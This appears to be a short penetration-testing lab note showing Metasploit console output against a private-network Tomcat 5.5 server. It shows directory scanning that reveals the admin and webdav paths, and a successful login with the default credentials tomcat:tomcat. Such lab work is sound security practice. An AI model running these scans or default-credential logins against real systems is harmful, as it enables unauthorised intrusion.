


Success Exploits
msf6 auxiliary(scanner/http/dir_scanner) > run
[*] Detecting error code
[*] Using code '404' as not found for 192.168.199.137
[+] Found
http://192.168.199.137:8180/admin/ 200 (192.168.199.137)
[+] Found
http://192.168.199.137:8180/jsp-examples/ 200 (192.168.199.137)
[+] Found
http://192.168.199.137:8180/tomcat-docs/ 200 (192.168.199.137)
[+] Found
http://192.168.199.137:8180/webdav/ 200 (192.168.199.137)
[*] Scanned 1 of 1 hosts (100% complete)
Usernames are shown
Able to login using default username:password tomcat:tomcat
msf6 auxiliary(admin/http/tomcat_administration) > run
[*]
http://192.168.199.137:8180/admin [Apache-Coyote/1.1] [Apache Tomcat/5.5] [Tomcat Server Administration] [tomcat/tomcat]
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed